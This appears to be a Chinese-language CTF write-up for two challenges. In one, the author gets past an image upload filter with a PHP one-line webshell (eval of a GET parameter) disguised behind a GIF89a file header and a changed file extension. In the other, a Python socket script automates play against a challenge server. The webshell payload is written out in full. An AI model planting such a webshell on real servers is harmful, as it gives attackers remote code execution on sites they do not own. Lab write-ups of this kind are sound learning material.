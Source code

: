 写完上一题之后没多久去那个页面看了看，发现出错了，然后旁边 flag 也出来了，虽然有点不明所以，不过大概是解出来了。

### background
看到来新题了，于是马上去看了看。好家伙，上传东西，得益于写 sheep 的时候搜索的大量资料，猜测大概使用一句话木马或者其变体来使用 webshell。
最简单的一句话木马果然不行，后来看到有个 gif89a 图片文件头欺骗的方法[GIF89a图片头文件欺骗](https://blog.csdn.net/piaolankeke/article/details/5872876)，就试了一下:
```php
GIF89a
<?php @eval($_GET["aya"]); ?>
```
大概是这样，源代码成功之后被我删掉勒，甚至微软安全中心还报毒（
上传的时候还拦截了请求修改了一下后缀，不过后来看服务器里面似乎改没改后缀的都传进去了，大概是不改也没什么问题吧- -
不过修改背景图片也是挺好玩的
PS: 吐了，刚刚写这个 wp 的时候写到这里之后就看到文档时不时抽搐，时有时无，关掉重开之后文件居然就无了，还好做了备份，不然得吐血。后面试了一下，黏贴保存之后关掉再打开，文件又无了。换位置换名字都是这样，我都开始怀疑是不是 vscode 对 md 的支持有什么问题了。后来想到，刚刚我不是写了一句话木马嘛，想到之前微软安全中心给我报毒的事，寻思是不是微软安全中心给我删掉了。结果一看，好家伙，还真是，躺了一大堆“风险”文件，难绷了。

### easy_md5
这题是比较早写的，一开始看到无法显示的字符的时候就觉得应该要用十六进制，然后我首先选择的是把收到的数据输出成文本，然后把十六进制格式写出来，再用 md5 计算，结果怎么算都不对，遂先放弃了
后面写完 `baby_typing_game` 之后，看到这题，就觉得: Why not Python? 于是用 python 开始写，主要也是对字符串要处理一下，除此之外就是一些进入流程，起名啊，看血量啊之类的，为了贴合流程基本上是写一点就连上去试下，大概也算是攻击服务器了（？
写完之后挂着机就睡午觉去了，醒来就发现血量都负数了还没结束。后来一问出题人，答曰看源码，才想起来还有源码，都忘记了（
一看，原来还要退出的，就是说还要检测到负血退出，算是加多点判断吧。还有就是可能是服务器问题还是怎么样，有时候消息会连在一起发送给我，直接导致我的 python 一直在 wait 信息，卡死了就，后面优化了一下，也不知道有没有起作用吧
如下是代码：
```python
import hashlib
import socket
import time

def main():
    fd=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    fd.connect(("124.***.**.***",11111)) # 这里用星号隐去了原 IP
    st=fd.recv(1024).decode("utf8")
    print(st)
    print(fd.recv(1024))
    fd.settimeout(1)
    fd.send("1".encode("utf8"))
    print(fd.recv(1024))
    print(fd.recv(1024))
    fd.send("1".encode("utf8"))
    print(fd.recv(1024))
    for i in range(200000):
        print(fd.recv(1024))

        print(i)
        time.sleep(0.001)

        fd.send("2".encode("utf8"))
        time.sleep(0.01)

        print(fd.recv(1024))
        st=fd.recv(1024).decode('utf8')
        print(st,st[0])
        if(st[0]=='-'):
            break
        
        fd.send("1".encode("utf8"))
        time.sleep(0.01)
        print(fd.recv(1024))
        st=fd.recv(1024)
        print(st.decode('ISO-8859-1'))
        st=st.decode('ISO-8859-1')
        st=st[:st.find("\nyour")].encode('ISO-8859-1')
```